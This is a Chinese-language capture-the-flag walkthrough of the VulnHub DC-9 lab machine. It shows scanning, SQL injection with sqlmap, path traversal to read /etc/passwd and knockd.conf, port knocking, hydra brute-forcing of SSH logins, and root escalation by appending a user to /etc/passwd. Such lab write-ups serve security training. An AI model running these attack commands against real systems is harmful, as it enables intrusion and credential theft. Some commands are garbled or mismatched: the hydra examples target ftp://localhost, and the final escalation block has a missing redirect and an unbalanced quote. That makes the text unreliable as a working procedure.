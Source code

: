 # DC9

- [参考](https://blog.csdn.net/adminuil/article/details/104055711?ops_request_misc=%7B%22request%5Fid%22%3A%22158264597519724811848754%22%2C%22scm%22%3A%2220140713.130056874..%22%7D&request_id=158264597519724811848754&biz_id=0&utm_source=distribute.pc_search_result.none-task)

- [学习](https://blog.csdn.net/crisprx/article/details/103985898)

- [下载](https://www.vulnhub.com/entry/dc-9,412/)

所有事情最终都会来到终焉😀。永远相信，美好的事情即将发生。 --小米

## 初探

先扫描


```
nmap -sP 192.168.31.0/24
```
![](img/2.png)

```
nmap -sT -sV -T5 -A -p- 192.168.31.69
```

![](img/1.png)

## 初探

访问80查看页面，发现在manage.php中可以进行登录。这里我们肯定要得到管理员账户密码，每个页面进行fuzz，发现在results.php中存在严重的POST类型SQL注入。

```
sqlmap -u "http://192.168.31.69/results.php" --data="search=1'" --dbs
sqlmap  -u "http://192.168.31.69/results.php" --data="search=1'"  -D Staff --dump
sqlmap  -u "http://192.168.31.69/results.php" --data="search=1'"  -D users --dump
```

![](img/3.png)

sqlmap注入成功，具体不再演示，拿到数据如下。

staff表下：

![](img/4.png)

Staff 库中其中admin账户密码hash值用Sqlmap自带的字典能够解密出来.

` admin账户 密码为：transorbital1`

users表下：

![](img/5.png)

users 库跑出了一堆账号密码，可能一会儿能用到吧。

尝试登陆一下admin。

![](img/6.png)

并没有任何其他的区别，只是可以增加能 `Add Record`，并没有任何实质功能.

其实这里我要好好感谢一下 Google 页面自动翻译 `File does not exist` 我头皮发麻的时候忽然想起，DC5中的文件包含。那就试试看呗。再使用DC5时的字典跑一遍。


![](img/7.png)

跑的时候直接默认和DC5一样跑了 发现也没错。

发现确实存在 文件包含 漏洞，可以读取 `/etc/passwd`,要是能还能读取 `/etc/shadow` 就好了,可惜读不得。

到这里我就嘎住了，看了其他大佬的wp，发现是要爆破一个 `/etc/knockd.conf` 文件端口敲门：

如果你有一台公众可访问的服务器，黑客可以轻松扫描其IP地址，查找服务器上的开放端口(尤其是用于SSH的端口22)。将服务器隐藏起来、不让黑客看见的一种方法是使用knockd。knockd是一种端口试探服务器工具。它侦听以太网或其他可用接口上的所有流量，等待特殊序列的端口命中(port-hit)。telnet或Putty等客户软件通过向服务器上的端口发送TCP或数据包来启动端口命中。

端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。

换句话说，如果知道自定义的端口，逐个进行敲门，这样我们就能够开启SSH端口，从而进行连接。

文章链接：- https://blog.csdn.net/crisprx/article/details/103985898

构造 `../../../../../etc/knockd.conf` 路径。看看文件内容

![](img/8.png)

这样得知依次需要打开的端口分别为：7469、8475、9842,knock打开端口需要nmap，从攻击机中打开端口：

```
nmap -p 7469 192.168.31.69	
nmap -p 8475 192.168.31.69
nmap -p 9842 192.168.31.69
```

成功依此访问后使用nmap查看22端口是否打开，发现已经打开。

![](img/9.png) 

使用 `hydra` 爆破

```
hydra -l admin -p password ftp://localhost/
hydra -L default_logins.txt -p test ftp://localhost/
hydra -l admin -P common_passwords.txt ftp://localhost/
hydra -L logins.txt -P passwords.txt ftp://localhost/
```

爆破得到三个用户：
```
chandlerb UrAG0D!
joeyt     Passw0rd
janitor   Ilovepeepee
```

## 提权

登录SSH，遍历目录后（注意应该使用ls -la查看隐藏文件或目录），发现只有janitor用户存在隐藏可读文件，打开后是其他密码。u1s1，这个靶场的作者是真的搞 普京的密码 你爬吧。😂

![](img/10.png)

大佬的wp中指出，很可能是其他用户的密码，使用 hydra 继续爆破一下。

```
fredf 密码：B4-Tru3-001
```
查看一下 那些代码有root权限
```
sudo -l
```

![](img/11.png)

查看一下 `/opt/devstuff/dist/test/`

```
cd /opt/devstuff/dist/test/
type test
```

![](img/12.png)

进行查看发现是一个python脚本

![](img/13.png)

当Python传入的参数是三个的时候，可以把第二个的读出，并写入到第三个的尾端，而第一个参数就是test.py,如何构造好这两个参数就是重点。

直接向 passwd 文件中写用户 注：密码是加密后的值。

```
echo 'pavan:1pavan$qv9M3fBmtDPrOTBZflNl81:0:0::/root:/bin/bash'
sudo ./test /tmp/test/etc/passwd'
sudo test
```

![](img/14.png)

## 总结

该靶场大致要点为： 
1. sqlmap使用
2. 文件包含的利用
3. hydra爆破ssh
4. Port Knocking 敲门服务
5. sudo的权限列举

更新笔记：
1. 内网渗透
2. 渗透工具(hydra)
3. 提权骚操作

